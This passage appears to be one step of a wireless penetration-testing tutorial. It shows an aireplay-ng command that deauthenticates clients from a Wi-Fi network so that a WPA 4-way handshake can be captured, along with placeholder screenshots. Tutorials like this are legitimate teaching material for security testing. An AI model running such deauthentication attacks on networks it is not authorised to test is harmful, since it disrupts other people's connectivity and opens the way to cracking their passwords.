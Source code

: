 ![](image.png)

  

  

3. We open a new terminal session and De-authenticate all clients on the Wireless network to capture a 4-way handshake

```
sudo aireplay-ng -0 10 -a <WIFI NETWORK MAC ADDRESS> -c  <CLIENT MAC ADDRESS> wlan0mon
```

**Screenshot of capturing 4-way handshake:**

![](image.png)
